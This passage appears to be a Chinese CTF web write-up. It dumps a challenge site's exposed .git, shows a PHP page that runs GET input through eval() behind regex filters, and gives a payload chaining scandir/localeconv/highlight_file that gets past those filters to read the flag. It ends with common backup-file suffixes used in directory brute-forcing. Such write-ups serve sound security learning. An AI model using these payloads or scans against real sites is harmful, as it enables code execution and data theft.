 ```shell
rip-git.pl -v -u http://d0a0f1e7-cbfa-4eee-9a2b-0f067902a20a.node5.buuoj.cn:81/.git/
```

得到如下的`index.php`文件

```php title="index.php"
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```
观察这个代码，进行了三次过滤。

- 第一次过滤掉了`data://|filter://|php://|phar://`这些，所以不能使用php伪协议了。
- 第二次检查是一个正则匹配，询问gpt后，这里是匹配函数调用的意思。
- 第三次又通过正则检查是否有`et|na|info|dec|bin|hex|oct|pi|log`这些字符

需要注意的是，虽然在第二步检查的时候只剩下`;`，但最终执行的时候还是执行最开始的代码，所以这里不需要担心。

最后构造payload `exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));`

最后得到了flag
![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/web_pic/CS__CTF__assets__01-web.assets__20240801184746.webp)


​    
### 备份文件搜索
网站备份文件的泄露一般是由于网站管理员将网站备份文件或是敏感信息文件存放在某个网站目录下，然后这个目录按照网站的默认设置是可以公开访问的。那么黑客就可通过暴力破解目录的方法获取该备份文件，导致网站敏感信息泄露。

=== "常见后缀名"
    `.rar`
    .zip
    .7z
    .tar.gz
    .bak:index.php.bak
    .txt
    .old
    .temp
    _index.html
    .swp
    .sql
    .tgz
    tar
